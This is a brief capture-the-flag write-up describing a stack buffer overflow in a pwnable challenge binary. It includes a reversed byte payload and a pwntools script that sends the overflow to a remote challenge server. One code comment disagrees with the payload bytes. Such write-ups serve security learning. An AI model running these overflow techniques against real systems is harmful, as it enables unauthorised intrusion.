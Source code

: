 # Pwnable - Challenge 04

This challenge was an elf file.

Flag was stored on server.

Binary was receive an any user input, and return "Yes, my wishes ( c0ffee, cafe) come true".

i try to send a lot of "A" charactor to observe behavior of binary.

![Pasted image 20221001124458](./pwn-challenge04.assets/Pasted image 20221001124458.png)

As aspect. When i send a lot of charactor it's was replace value of `0xc0ffee` and `0xcafe`

Charactor "A" was 41 in Hex

![image-20221003211802248](./pwn-challenge04.assets/image-20221003211802248.png)

Decompile binary with ghida, and found that we need to replace variable local_c and local 10 to `0xbe91ce` and `0xf3eebee3`

Break payload into \x format

```
\xbe\x91\xce\xf3\xee\xbe\xe3
```

And reverse an order of payload

```
\xe3\xbe\xee\xf3\xce\x91\xbe
```

Create an exploit with [pwntools](https://github.com/Gallopsled/pwntools)

```
from pwn import *

io = remote('43.229.151.195', 57794)

io.recvuntil("\n")
io.recvuntil("? ")
# \xbe\x2e\xce
# \xf3\xee\xbe\xe3

io.sendline(b'AAAAAAAAAAAAAAAAAAAAAAAa\xe3\xbe\xee\xf3\xce\x91\xbe')
io.recvline()
io.recvline()
```

```
python3 exploit.py DEBUG
```

![Pasted image 20221001131305](./pwn-challenge04.assets/Pasted%20image%2020221001131305.png)

